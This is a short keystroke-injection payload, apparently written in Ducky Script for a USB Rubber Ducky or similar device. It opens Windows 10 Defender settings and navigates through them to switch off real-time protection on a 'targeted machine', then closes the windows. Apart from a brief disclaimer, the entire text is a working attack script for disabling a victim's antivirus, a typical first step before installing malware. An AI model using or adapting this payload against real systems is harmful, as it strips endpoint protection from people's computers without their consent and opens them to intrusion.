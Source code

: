 REM Author      : https://github.com/TheTeasel

REM Description : Disable Windows Defender on Windows 10

REM             : You may want to change the DELAY depending on the speed of the targeted machine

REM             PLEASE DO NOT USE THIS SCRIPT FOR HARMFUL PURPOSES

DELAY 1000

REM Open Windows Defender settings

CTRL ESC

DELAY 1000

STRING Windows Defender Settings

DELAY 100

ENTER

REM Navigate to realtime protection and disable it

DELAY 1000

ENTER

DELAY 1000

TAB

DELAY 1000

TAB

DELAY 250

TAB

DELAY 250

TAB

DELAY 250

TAB

ENTER

DELAY 1000

SPACE

DELAY 1000

LEFT

DELAY 500

ENTER

REM Close Settings

DELAY 500

ALT F4

DELAY 100

ALT F4
